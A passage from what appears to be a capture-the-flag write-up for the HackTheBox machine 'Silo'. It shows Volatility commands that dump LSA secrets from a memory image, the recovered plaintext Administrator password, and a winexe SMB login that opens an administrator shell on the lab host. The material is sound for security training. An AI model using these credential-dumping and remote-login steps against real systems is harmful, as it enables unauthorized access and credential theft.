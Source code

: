 {% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # volatility -f SILO-20180105-221806.dmp imageinfo
Volatility Foundation Volatility Framework 2.6
          Suggested Profile(s) : Win8SP0x64, Win10x64_17134, Win81U1x64, Win10x64_10240_17770, Win2012R2x64_18340, Win10x64_14393, Win10x64, Win2016x64_14393, Win10x64_16299, Win2012R2x64, Win2012x64, Win8SP1x64_18340, Win10x64_10586, Win8SP1x64, Win10x64_15063 (Instantiated with Win10x64_15063)
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : WindowsCrashDumpSpace64 (Unnamed AS)
                     AS Layer3 : FileAddressSpace (/datos/gerh/Escritorio/Prometheus/Ethic4l-Hacking/Operations/Premium/Silo/SILO-20180105-221806.dmp)
                      PAE type : No PAE
                           DTB : 0x1a7000L
                          KDBG : 0xf80078520a30L
          Number of Processors : 2
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8007857b000L
                KPCR for CPU 1 : 0xffffd000207e8000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2018-01-05 22:18:07 UTC+0000
     Image local date and time : 2018-01-05 22:18:07 +0000
{% endhighlight %}

One of the useful plugins that we can use in this situation is lsadump. The lsadump plugin dumps decrypted LSA secrets from the registry. This exposes information such as the default password (for systems with autologin enabled), RDP public keys, and credentials used by **DPAPI**.  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 lsadump
Volatility Foundation Volatility Framework 2.6
DefaultPassword
0x00000000  1e 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x00000010  44 00 6f 00 4e 00 6f 00 74 00 48 00 40 00 63 00   D.o.N.o.t.H.@.c.
0x00000020  6b 00 4d 00 65 00 42 00 72 00 6f 00 21 00 00 00   k.M.e.B.r.o.!...

DPAPI_SYSTEM
0x00000000  2c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ,...............
0x00000010  01 00 00 00 cf 25 94 31 34 9e ae 43 2d 8b 87 ac   .....%.14..C-...
0x00000020  f2 a7 74 1c 6d ec 1c 04 08 43 a8 a6 a9 42 62 f7   ..t.m....C...Bb.
0x00000030  55 70 48 bb 17 7d 82 fe 79 49 02 bd 00 00 00 00   UpH..}..yI......
{% endhighlight %}

As you can see from the results of lsadump, we were able to acquire a plain-text password **DoNotH@ckMeBro!**.  
Since the SMB service is accessible through the network, we can use winexe to login via SMB.  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # winexe -U Administrator //10.10.10.82 cmd.exe
Enter password: DoNotH@ckMeBro!

Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
silo\administrator
{% endhighlight %}
